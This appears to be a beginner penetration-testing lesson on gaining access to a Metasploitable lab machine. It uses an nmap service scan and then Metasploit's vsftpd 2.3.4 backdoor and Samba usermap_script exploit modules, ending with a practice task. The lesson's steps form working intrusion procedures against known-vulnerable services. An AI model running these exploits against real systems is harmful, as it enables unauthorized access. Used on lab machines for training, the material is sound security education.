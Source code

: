 # Access to operating systems

## High Level Goals

By the end of this lesson, you will be familiar with the following:
1. Introduction to gaining access
2. Server side.

## Introduction 

In this stage, we're going to be talking about gaining access to computer devices.

What do we mean by computer devices?
Any electronic device you see is a computer. A phone, a TV, a laptop, a web server, a website, a network, a router, all of these things are computers. Each one of them has an operating system.

## server side

First things, we want to run the kali and the Metasploitable.
We want to know the information about the target, we need to scan the target

	nmap -sV [target IP]

> In my case the IP adress of the Metasploitable is 10.0.2.7 you will have another IP.
 
 we will see these output
 
	┌──(tetra㉿kali)-[~]
	└─$ nmap -sV 10.0.2.7    
	Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-24 10:46 EEST
	Nmap scan report for 10.0.2.7
	Host is up (0.00013s latency).
	Not shown: 977 closed ports
	PORT     STATE SERVICE     VERSION
	21/tcp   open  ftp         vsftpd 2.3.4
	22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
	23/tcp   open  telnet      Linux telnetd
	25/tcp   open  smtp        Postfix smtpd
	53/tcp   open  domain      ISC BIND 9.4.2
	80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
	111/tcp  open  rpcbind     2 (RPC #100000)
	139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	512/tcp  open  exec        netkit-rsh rexecd
	513/tcp  open  login       OpenBSD or Solaris rlogind
	514/tcp  open  tcpwrapped
	1099/tcp open  java-rmi    GNU Classpath grmiregistry
	1524/tcp open  bindshell   Metasploitable root shell
	2049/tcp open  nfs         2-4 (RPC #100003)
	2121/tcp open  ftp         ProFTPD 1.3.1
	3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
	5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
	5900/tcp open  vnc         VNC (protocol 3.3)
	6000/tcp open  X11         (access denied)                                   
	6667/tcp open  irc         UnrealIRCd                                        
	8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)                      
	8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1               
	MAC Address: 08:00:27:10:69:2F (Oracle VirtualBox virtual NIC)               
	Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 11.86 seconds


know we see we have port `21/tcp` is open and running `ftp` service which have `vsftpd 2.3.4`  if we go in the Google and write vsftpd 2.3.4 exploit

![vsftpdexploit](/img/vsftpdexploit1.png)

### Metasploit 

What is Metasploit 

Metasploit is an exploit development and execution tool. it can also be used to carry out other penetration testing tasks such as port scans, service identification and post exploitation tasks. We have some command for Metasploit 

|command| what it does |
|--|--|
| `msfconsole` | runs the metasploit console |
| `help` | shows help |
| `show [something]` | something can be exploits, payloads, auxiliaries or options |
| `use[something]` | use a certain exploit, payload or auxiliary |
| `set[option] [value]` | confider[option] to have a value of [value]|
| `exploit` | runs the current task |

now go to the terminal:

1. write `msfconsole` 

![msfconsole1](/img/msfconsole1.png)

2. we want to add the command that we take it from this [website,](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/) which is `use exploit/unix/ftp/vsftpd_234_backdoor`

![msfconsole2](/img/msfconsole2.png)

3.  we need to show option to know what can we do `show options`

![showoption](/img/showoption.png)

4. we need to change the `RHOST` by using `set RHOST 10.0.2.7`

![setRHOST](/img/setRHOST.png)

5. know write `exploit` awesome we hacked the Metasploit .

Now let's try to another service, let's see `139/tcp` which have service `netbios-ssn` 

1. Go to the Google and write `Samba smbd 3.X exploit`
2. open `msfconsole`
3. use the `use use exploit/multi/samba/usermap_script`
4. show options and set the options
5. run the command `exploit`

## practice

1. Open your kali and metasploit machine.
2. Hack the metasploit machine. 
3. In the files in  metasploit machine,  there is 1 game what is the game name?
